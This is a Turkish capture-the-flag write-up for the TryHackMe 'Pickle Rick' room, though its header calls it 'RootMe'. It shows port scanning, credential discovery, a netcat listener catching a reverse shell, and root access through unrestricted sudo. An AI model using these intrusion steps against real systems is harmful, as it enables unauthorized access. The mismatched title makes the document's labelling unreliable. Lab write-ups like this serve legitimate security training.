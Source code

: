 ```yaml
---
title: 'TryHackMe | RootMe WriteUp'
author: appdone
categories: [TryHackMe]
tags: [command execution, sudo]
render_with_liquid: false
---
```


Bu yazımda, TryHackMe platformunda yer alan "Pickle Rick" isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sV -sC -T4 10.10.164.239
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 26:d5:4a:c3:63:84:c5:38:ed:e2:5c:91:76:91:55:5c (RSA)
|   256 d1:01:87:e1:31:38:f3:9b:0f:a1:25:32:53:3a:80:2b (ECDSA)
|_  256 15:eb:64:9f:c4:0f:28:90:09:05:84:cd:e8:9a:0d:a0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH) ve 80 (HTTP) numaralı portların açık olduğunu öğrendik. Çalışan servislerin sürümlerinden kaynaklanan herhangi bir zafiyet bulunmadığından doğrudan HTTP servisine yöneliyorum.

```html
  <!--
    Note to self, remember username!
    Username: ********
  -->
```

Ana sayfanın kaynak kodunda bir kullanıcı adı buldum. Kayıt ettikten sonra dirsearch ile bir dosya/dizin taraması yapmaya karar verdim.

```console
[08:53:12] 200 -  589B  - /assets/
[08:53:41] 200 -  455B  - /login.php
[08:54:02] 200 -   17B  - /robots.txt
```

Tarama sonucunda bir kullanıcı giriş sayfası olduğunu öğrendik. Daha önce bir kullanıcı adı bulmuştuk parolası ise robots.txt dosyasında bulunuyor.

Giriş yaptıktan sonra sistemde komutlar çalıştırabileceğimiz bir panel ile karşılaşıyoruz. netcat aracını kullanarak bir reverse shell alacağım.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.164.239] 50094
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bağlantıyı elde ettikten sonra bulduğumuz dizinde ilk malzemeyi buluyoruz. Aslında bu görev pekte önemli değil, ben sadece yetki yükseltmek istiyorum. "sudo -l" komutunu kullandığımızda herhangi bir kullanıcının yetkisinde istediğimiz komutu çalıştırabileceğimizi görüyoruz.

```console
www-data@ip-10-10-164-239:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-164-239:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-164-239:
    (ALL) NOPASSWD: ALL
```

root kullanıcısı olarak bash'e geçiş yapıyor, böylece yetki yükseltmiş oluyoruz.
```console
www-data@ip-10-10-164-239:/var/www/html$ sudo bash
root@ip-10-10-164-239:/var/www/html# cd /root
root@ip-10-10-164-239:~# ls
3rd.txt  snap
```

